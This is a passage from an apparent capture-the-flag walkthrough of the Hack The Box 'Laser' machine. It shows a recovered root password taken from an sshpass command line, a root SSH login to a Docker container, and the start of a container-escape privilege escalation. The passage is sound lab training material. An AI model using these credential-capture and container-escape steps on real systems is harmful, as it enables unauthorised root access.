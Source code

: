```text
solr@laser:/dev/shm$ python3 get_pass.py
'sshpass\x00-p\x00c413d115b3d87664499624e7826d8c5a\x00scp\x00/opt/updates/files/graphql-feed\x00root@172.18.0.2:/root/feeds/\x00'
```

After waiting for quite some time, I got what I wanted. Cleaning up the output made the command:

```text
sshpass -p c413d115b3d87664499624e7826d8c5a scp /opt/updates/files/graphql-feed root@172.18.0.2:/root/feeds/
```

The password was `c413d115b3d87664499624e7826d8c5a`.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ echo -n c413d115b3d87664499624e7826d8c5a | wc -c                                
32
```

I verified the length of the password I found to make sure that it matched what I found earlier.

### Getting a root shell \(on the container\)

```text
solr@laser:/dev/shm$ ssh root@172.18.0.2
root@172.18.0.2's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Dec 19 13:56:50 2020 from 172.18.0.1
root@20e3289bc183:~#
```

Using this password and SSH I was able to log in as `root` to the docker container. Next I tried a standard docker container privilege escalation method where I mount the root filesytem into the container.

```text
solr@laser:~$ which docker
/usr/bin/docker
```

First I verified that the `docker` program was on the host system \(to copy to the container if need be\).

```text
solr@laser:~$ scp /usr/bin/docker root@172.18.0.2:/dev/shm/docker
root@172.18.0.2's password: 
docker                                                                  0%    0     0.0KB/s   --:-- ETAscp: /dev/shm/docker: No space left on device
docker                                                                100%   81MB 157.6MB/s   00:00
```
